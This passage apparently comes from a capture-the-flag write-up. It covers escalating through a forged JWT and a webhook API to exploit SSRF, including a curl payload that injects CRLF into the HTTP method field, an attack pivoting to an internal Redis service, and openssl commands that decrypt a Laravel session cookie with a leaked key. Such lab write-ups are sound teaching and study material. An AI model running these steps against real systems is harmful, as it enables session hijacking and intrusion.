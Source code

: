 We sent the request with the new JWT to `/webhooks`{:.filepath} and found that our edited JWT is valid! This means that the privileged JWT was accepted by the server.

![Webhooks API request with edited JWT](web-api-burp-jwt-editor-validated.png)
_Response indicating a valid JWT_

Finally, we could create a new webhook at `/webhooks/create`{:.filepath} using the privileged token. We created a webhook that implements **sendRequest**, and got a new UUID to access it.

![Create webhook with privileged JWT](web-api-burp-create-webhook.png)
_Create a new webhook to use "sendRequest"_


#### Server Side Request Forgery (SSRF)

We began testing the new webhook for SSRF and noticed that it sends requests to any URL using the HTTP wrapper, and the _method_ parameter accepts any string value, even with whitespace.

~~~zsh
# Start listener
socat TCP-LISTEN:8080,fork,reuseaddr,bind=$lhost -

# (In a separate tab) trigger SSRF
uuid="e7538116-6c9b-4af4-8cd0-e7410dd4b843" # The sendRequest webhook
curl $webhooks_api/webhooks/$uuid -H 'Content-Type: application/json' \
  -d '{"url":"http://'"$lhost"':8080","method":"DEMO\r\nX:"}' -so /dev/null
~~~
{:file="bryan@redteam ➤ zsh" .nolineno}

~~~text
DEMO
X: / HTTP/1.1
Host: 10.10.14.2:8080
Accept: */*
~~~
{:file="STDOUT" .nolineno}

We used this SSRF to contact the Redis store from the Laravel environment at **redis:6379**. To verify the blind interaction, our Laravel session on the main site was set to a blank string, then we confirmed that we were no longer authenticated. To recover the laravel session ID, we simply decrypted the session information from the "cybermonday_session" cookie, using the key we found earlier in `cybermonday.git/.env`{:.filepath}

![Decoded session object](web-burp-session-cookie.png)
_Decode the "cybermonday\_session" cookie with BurpSuite Inspector_

~~~zsh
# "iv" from cybermonday_session object
iv=$(echo "4ahET1XMUo4K13E5bm6NIw=="|base64 -d|xxd -p -c16)

# Key from .env
key=$(echo "EX3zUxJkzEAY2xM4pbOfYMJus+bjx6V25Wnas+rFMzA="|base64 -d|xxd -p -c32)

# "value" from decoded cybermonday_session cookie
cat << EOF | base64 -d > data.bin
Yyj5xpbX/anzgYqAsiDMwXm6HXflROxg
LyYvuA2oRtfjJJ/d+nR4Sx2/3Cziyb9m
YUsv7CdHhqUfs/l9OxmSTxd10Hp1GHNa
Re2WyYcNYkGuVgQb1FfaCxwPTupVAttL
EOF

# Decrypt the session information
session_info=$(openssl enc -d -aes-256-cbc -K $key -iv $iv -in ./data.bin)

# Session ID should be the second value
session_id=$(echo $session_info | cut -d\| -f2)

~~~
